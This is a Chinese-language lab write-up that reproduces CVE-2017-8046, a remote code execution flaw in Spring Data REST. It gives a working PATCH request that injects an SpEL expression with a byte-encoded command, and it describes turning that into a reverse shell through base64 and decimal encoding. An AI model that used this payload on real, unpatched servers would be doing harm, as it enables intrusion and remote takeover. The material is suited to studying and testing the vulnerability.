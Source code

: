 

# Spring Data Rest 远程命令执行漏洞（CVE-2017-8046）

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->改包--->SpEL命令执行

### 0x01漏洞介绍

​			Spring Data REST是一个构建在Spring Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST API的Patch方法中（实现[RFC6902](https://tools.ietf.org/html/rfc6902)），path的值被传入`setValue`，导致执行了SpEL表达式，触发远程命令执行漏洞。

​			影响版本

  	Spring Data REST 2.5.12, 2.6.7, 3.0 RC3之前的版本
  	Spring Boot 2.0.0M4之前的版本
  	Spring Data release trains Kay-RC3之前的版本

### 0x02漏洞复现

​	访问`http://your-ip:8080/`即可看到json格式的返回值，说明这是一个Restful风格的API服务器。

![Spring_Data_Rest_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Spring_Data_Rest_RCE_1.jpg)

​	访问`http://your-ip:8080/customers/1`，看到一个资源。我们使用PATCH请求来修改之：

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]
```

path的值是SpEL表达式，发送上述数据包，将执行`new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}`表示的命令`touch /tmp/success`。然后进入容器。

![Spring_Data_Rest_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Spring_Data_Rest_RCE_2.jpg)

可见，success成功创建。

将bytecode改成反弹shell的命令（注意：[Java反弹shell的限制与绕过方式](http://www.jackson-t.ca/runtime-exec-payloads.html)），成功弹回：

此处需要先base64绕过，然后转换为ascii十进制

![Spring_Data_Rest_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Spring_Data_Rest_RCE_3.jpg)


